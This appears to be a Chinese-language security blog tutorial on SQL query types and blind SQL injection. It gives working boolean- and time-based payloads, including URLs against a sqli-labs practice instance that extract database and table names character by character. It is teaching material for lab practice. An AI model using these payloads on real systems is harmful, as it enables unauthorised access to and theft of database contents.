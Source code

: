 ```yaml
---
title: "查询方式及报错注入" # 文章标题.
date: 2022-10-26
draft: false
tags: ["WEB安全"]
categories: ["WEB安全"]
---
```


# 查询方式及报错注入

当进行 SQL 注入时，有很多注入会出现无回显的情况，其中不回显的原因可能是 SQL 语句查询方式的问题导致，这个时候我们需要用到相关的报错或盲注进行后续操作。

## select 查询数据

在网站应用中进行数据显示查询操作

例：`select * from news where id=$id`

## insert 插入数据

在网站应用中进行用户注册添加等操作

例：`insert into news(id,url,text) values(2,'x','$t')`

注入参数写在哪里都可以最主要的是看是否引号的闭合，要是有闭合的话，要把引号给闭合了

## delete 删除数据

后台管理里面删除文章删除用户等操作

例：`delete from news where id=$id`

## update 更新数据

会员或后台中心数据同步或缓存等操作

例：`update user set pwd='$p' where id=2 and username='admin'`

## order by 排序数据

一般结合表名或列名进行数据排序操作

例：

```mysql
select * from news order by $id
select id,name,price from news order by $order
```

我们可以通过注入点产生的方式或应用的效果，猜测到对方SQL语句查询的方法。

## SQL注入报错盲注

盲注就是在注入过程中，获取的数据不能回显至前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。我们可以知道盲注分为以下三类：

这些报错盲注的使用顺序：报错回显，逻辑判断，延时注入。

### 基于布尔的SQL盲注-逻辑判断

`regexp`，`like`，`ascii`，`left`，`ord`，`mid`

```mysql
like 'ro%' # 判断 ro 或 ro...是否成立

regexp '^like[a-z]' # 匹配 like 及 like...等

mid(a,b,c) # 从位置b[从1开始]开始，截取 a 字符串的c[一般情况下是1]位
eg:select mid('2022-10-23',1,2); # 20

ord=ascii(x)=97 # 判断 x 的 ascii 码是否等于 97
# 一般情况下使用ASCII码的方式较为多，因为这样的话，你在写脚本的时候，可以直接一个for循环将所有的可能性全部的进行遍历，更加的方便。
# 如果你使用mid和substr这类的函数，里面必然会涉及到',然而使用引号可能会出现转义。使用ASCII编码可以进行绕过。
select username from users where id = 1 and sleep(if(ascii(mid(database(),1,1))=112,5,0));
select username from users where id = 1 and if(ascii(substr(database(),1,1))=112,sleep(5),0); # 以上这两种方式都是一样的，与sleep的位置

left(database(),1) # left(a,b)从左侧截取 a 的前 b 位
SELECT * FROM users WHERE id='1' and left(version(),3)='5.5';

substr(a,b,c) # 从 b 位置开始，截取字符串 a 的 c 长度
eg:select substr('2022-10-23',2,4); # 022-

length(database())=8 # 判断数据库 database()名的长度
```

逻辑判断的一般用法：

```mysql
select * from member where id = 1 and sleep(if(mid(database(),1,1)='p',1,0)); # 逐个去爆破数据库名的每一个字符
# 在URL中的写法
http://192.168.132.128/sqli-libs/Less-2/?id=1 and sleep(if(mid(database(),1,1)='s',5,0))--+ # 逐个去分解每一个数据库的字符。
http://192.168.132.128/sqli-libs/Less-2/?id=1 and sleep(if(mid(database(),2,1)='e',5,0))--+ # 去猜解数据库名的第二个字符。

http://192.168.132.128/sqli-libs/Less-2/?id=1 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)=101),sleep(5),0)--+ # 这个是查询数据库的第一个表，要想查询数据库的第二个表只需将limit的值进行修改即可

select * from users where id = 1 and if(ascii(substr((select table_name from information_schema.tables where tabl
e_schema=database() limit 0,1),1,1))=101,sleep(5),0); # 查询数据库对应的第一个表

select * from users where id = 1 and if(ascii(substr((select table_name from information_schema.tables where tabl
e_schema=database() limit 1,1),1,1))=114,sleep(5),0); # 查询数据库对应的第二表，通过控制limit来控制查询的表

select * from users where id = 1 and if(substr((select table_name from information_schema.tables where table_sche
ma=database() limit 1,1),1,2)='re',sleep(5),0); #查询数据库的第二个表的前两个字符
```

这类不会回显

### 基于时间的SQL盲注-延时判断

`if`，`sleep`

```mysql
if(条件,5,0)  #条件成立 返回 5 反之 返回 0
select if(database()='pikachu','pikachu','error'); # if的使用案例，这个返回的是pikachu
sleep(5)  #SQL 语句延时执行 5 秒
# SQL语句中常见的写法
select * from member where id = 1 and sleep(1); # Empty set (1.00 sec) 这是显示的结果，是休眠1秒之后在执行
select * from member where id = 1 and sleep(6); # Empty set (6.00 sec)
```

这两个关键字的联合使用

```mysql
select * from member where id = 1 and sleep(if(database()='pikachu',1,0));
# 通过这种方式可以进行数据库名的猜解，不需要回显，回显的是时间。
http://192.168.132.128/sqli-libs/Less-2/?id=1 and sleep(if(database()='security',10,0))--+ # 这个是判断数据库的数据库名
http://192.168.132.128/sqli-libs/Less-2/?id=1%20and%20sleep(if(length(database())=8,5,0))--+ # 判断数据库名的长度
```

这类不会回显

### 基于报错的SQL盲注-报错回显

`floor`，`updatexml`，`extractvalue`

对方不会回显，但是让其强制回显。

在抓包的时候，使用GET请求的话，如何要提交多个参数的话，为了防止HTTP头的语法解析，所以必须要使用+或者%20进行替换空格，这个只在数据包中这样使用，因为在数据包中，数据包是由空格来分割相应的数据的。

## 补充：

https://www.jianshu.com/p/bc35f8dd4f7c # 12种注入方式补充。

https://www.jianshu.com/p/fcae21926e5c # order by


